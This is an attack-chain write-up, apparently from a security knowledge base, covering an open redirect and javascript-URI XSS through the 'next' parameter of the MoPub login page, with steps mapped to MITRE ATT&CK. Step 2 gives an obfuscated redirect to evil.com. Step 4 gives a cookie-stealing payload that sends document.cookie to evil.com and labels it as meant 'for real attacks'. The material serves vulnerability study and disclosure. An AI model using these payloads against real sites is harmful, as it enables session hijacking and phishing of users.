

# XSS via Open Redirect in MoPub Login Next Parameter

Multi-stage attack chain demonstrating exploitation of an open redirect in the MoPub login page to achieve XSS via unfiltered javascript URIs in the 'next' parameter.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization

## Prerequisites & Requirements

### Required Tools

- Web browser (e.g., Chrome or Firefox)
- Optional: Proxy tool like Burp Suite for URL manipulation

### Target Environment

- Web platform
- MoPub service at https://app.mopub.com
- Valid login credentials for MoPub account

### Initial Access Requirements

- Network access to the internet
- MoPub account credentials
- No prior access needed beyond public-facing login page

## Detailed Attack Procedures

### Step 1: Construct Base Login URL
procedure: [[procedures/Construct-and-Test-Open-Redirect-URL]]

**Objective**: Establish the baseline login URL with a benign 'next' parameter to verify normal redirection behavior.

**Instructions**: Start by forming the initial URL using a safe redirect target like Google.

No specific commands required; manually construct the URL in the browser address bar or use a proxy.

**Expected Output**: The login page loads with the 'next' parameter appended, and after login, redirects to the specified safe site.

**Success Indicators**:
- Login page accessible without errors
- Post-login redirect to benign URL succeeds

### Step 2: Modify Next Parameter for Arbitrary Redirect
procedure: [[procedures/Modify-Next-Parameter-for-Arbitrary-Redirect]]

**Objective**: Alter the 'next' parameter to point to a malicious external site, demonstrating the open redirect vulnerability.

**Instructions**: Replace the 'next' value with an arbitrary URL, such as https://evil.com. For obfuscation, use URL encoding if needed (e.g., %68%74%74%70%73%3A%2F%2F%65%76%69%6C%2E%63%6F%6D).

Access the modified URL: https://app.mopub.com/login?next=https://evil.com

**Expected Output**: Login page loads, and after authentication, browser redirects to the arbitrary site.

**Success Indicators**:
- No validation errors on the login page
- Successful redirection to the attacker-controlled site post-login

### Step 3: Perform Login to Trigger Redirect
procedure: [[procedures/Perform-Login-to-Trigger-Redirect]]

**Objective**: Authenticate on the login page to activate the vulnerable redirection mechanism.

**Instructions**: Enter valid MoPub credentials on the login form and submit. The application processes the login and applies the 'next' parameter for redirection.

**Expected Output**: Successful authentication followed by automatic browser navigation to the 'next' URL.

**Success Indicators**:
- Login succeeds without blocking the 'next' parameter
- Redirection occurs as specified in the parameter

### Step 4: Observe and Execute JavaScript Redirect
procedure: [[procedures/Observe-and-Execute-JavaScript-Redirect]]

**Objective**: Exploit the lack of URI filtering by using a javascript: scheme in 'next' to execute arbitrary code, confirming XSS.

**Instructions**: Modify 'next' to javascript:alert('XSS Proof of Concept'), then login. For real attacks, use payloads like javascript:document.location='https://evil.com/steal?cookie='+document.cookie to exfiltrate data.

Access: https://app.mopub.com/login?next=javascript:alert('XSS')

**Expected Output**: After login, an alert box pops up or JavaScript executes, potentially stealing cookies or performing other actions.

**Success Indicators**:
- JavaScript executes post-login
- Alert displays or network requests to attacker site occur (for data exfil)

## Attack Chain Summary

### Key Achievements

1. Demonstrated open redirect allowing arbitrary external navigation for phishing.
2. Exploited unfiltered javascript URIs for post-authentication XSS.
3. Enabled cookie jacking and session hijacking via malicious redirects.
4. Highlighted obfuscation potential with URL encoding.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]] JavaScript
- [[Steal Web Session Cookie]] Steal Web Session Cookie
- [[T1566.002]] Phishing: Spearphishing Link

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Execution]] Execution
- [[Collection]] Collection

---

*Last updated: 2023-10-01T00:00:00Z*
